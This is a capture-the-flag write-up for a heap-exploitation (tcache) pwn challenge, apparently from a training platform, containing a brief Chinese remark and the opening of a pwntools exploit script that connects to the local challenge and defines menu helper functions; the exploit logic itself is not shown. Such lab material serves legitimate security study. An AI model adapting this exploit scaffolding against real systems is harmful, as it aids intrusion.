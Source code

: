 ## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to obtain the flag.

## Write-up

有啥不一样吗？？我之前也是这么做的……

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level14.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def echo(idx, offset):
    target.sendlineafter(b": ", b"echo")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Offset: ", str(offset).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def stack_free():
    target.sendlineafter(b": ", b"stack_free")


```